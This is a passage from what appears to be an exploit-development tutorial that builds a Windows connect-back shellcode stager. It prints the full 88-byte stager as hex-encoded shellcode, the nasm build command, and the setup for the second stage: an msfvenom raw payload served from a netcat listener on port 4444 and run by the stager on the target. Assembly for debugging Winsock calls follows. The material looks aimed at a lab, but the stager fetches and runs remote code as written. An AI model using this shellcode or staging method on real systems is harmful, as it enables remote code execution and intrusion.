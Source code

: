 # Putting it All Together

Each piece of Assembly code can be put together in order and compiled with nasm. Don’t forget to change the IP address!

If the code is saved in a file named stager.asm, that command would be:

`nasm stager.asm -o stager.bin`

That BIN file can then be \x formatted for Python. This can be done manually by opening the BIN file in a hex editor or using a script. The stager comes to 88 bytes. Not bad!

```python
python3 encoder.py --format stager.bin
[+] Formatting complete: 88 bytes
"\x31\xdb\x66\xbb\x90\x01\x29\xdc\x54\x53\xbb\x55\x6a\xab\x71\xff\xd3\x31"
"\xff\x57\x57\x57\x57\x47\x57\x47\x57\xbb\x6a\x8b\xab\x71\xff\xd3\x89\xc7"
"\x68\xc0\xa8\xe4\x9f\x66\x68\x11\x5c\x31\xdb\x80\xc3\x02\x66\x53\x89\xe2"
"\x6a\x10\x52\x57\xbb\x07\x4a\xab\x71\xff\xd3\xfe\xc4\x29\xc4\x89\xe5\x31"
"\xc9\x51\x50\x55\x57\xbb\x6f\x67\xab\x71\xff\xd3\xff\xe5"
```

This example uses the encoder.py found here: https://github.com/chrismaddalena/ExploitDev/tree/master/Encoder

## Test Drive

This stager is a connectback stager, so an attacking machine at the IP address specified in the stager needs to be setup to listen on port 4444 and respond with the second stage. The shellcode needs to be sent as raw bytes. The easiest option is generating a raw payload with msfvenom and saving it in a text file, like so:

`msfvenom -p windows/exec CMD="calc.exe" -f raw > sc.txt`

Then that can be fed into a netcat listener:

`nc -nvlp 4444 < sc.txt`

Running the Python script with the stager shellcode should result in netcat registering a successful connection and calc.exe popping open on the Windows XP VM. Classic!

## Debugging Issues

So, something went wrong? There is actually a very easy way to troubleshoot the sockets using a debugger. A call to the WSAGetLastError function will return the error code of the last Winsock API call. This works for WSAStartUp, WSASocketA, connect, recv, bind, and listen.

Just call WSAGetLastError after one or all of the calls to the Winsock functions. It takes no arguments, so only the address of the function is needed.

```
MOV EBX,0x71AB3CCE ; MOV EAX,WS2_32.WSAGetLastError
CALL EBX           ; CALL WSAGetLastError
```

The debugger will show the returned error message. This can be a 0 for success or an error code with a message that is usually descriptive enough to be understood without referencing the error code webpage. It might say something like “WSANOTINITIALISED” for WSASocketA. That would mean WSAStartUp failed.

